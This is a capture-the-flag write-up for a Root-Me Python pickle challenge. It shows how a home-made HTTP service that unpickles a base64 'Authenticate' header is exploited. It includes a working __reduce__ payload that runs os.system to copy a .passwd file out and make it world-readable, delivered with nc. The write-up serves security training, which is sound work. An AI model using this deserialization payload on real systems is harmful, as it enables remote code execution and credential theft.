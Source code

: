 ## Python - pickle

| Author | Level | Points |
| ------ | ----- | ------ |
| koma | Medium | 25 |


> Home-Made HTTP service
>
> **Statement**
>
> Authenticate as admin and capture the flag from .passwd file.

#### Solution

First, test the TCP connection with `curl`

```
curl -v challenge02.root-me.org
```

```
{"result": "Not allowed you should first AUTH"}
```

Change `AUTH` of header

```
echo -e 'AUTH admin HTTP/1.1\r\n' | nc challenge02.root-me.org 60005
```

```
{"result": "Can't find 'Authenticate' header"}
```

Now, add `Authenticate` header to it

```
echo -e 'AUTH admin HTTP/1.1\r\nAuthenticate: admin' | nc challenge02.root-me.org 60005
```

```
{"result": "Authentication failed = Traceback (most recent call last):\n  File \"/challenge/app-script/ch5/ch5\", line 52, in do_AUTH\n    authcombi = pickle.loads(base64.b64decode(self.headers.getheader('Authenticate')))\n  File \"/usr/lib/python2.7/base64.py\", line 76, in b64decode\n    raise TypeError(msg)\nTypeError: Incorrect padding\n"}
```

We know webserver is base64 decoding the authentication header and write a Python code

```python
import os
import cPickle
import base64

class Exploit(object):
	def __reduce__(self):
		return (os.system, ('cat /challenge/app-script/ch5/.passwd > /tmp/pickle; chmod 777 /tmp/pickle',))

print base64.b64encode(cPickle.dumps(Exploit()))
```

Then add the result after run Python to variable `A` and run

```sh
#!/bin/sh
A="<result_of_Python_code>"
echo -e "AUTH admin HTTP/1.1\r\nAuthenticate: $A\r\n" | nc challenge02.root-me.org 60005
```

After that, login to another user from another `app-script` challenge and get the flag

```
cat /tmp/pickle
```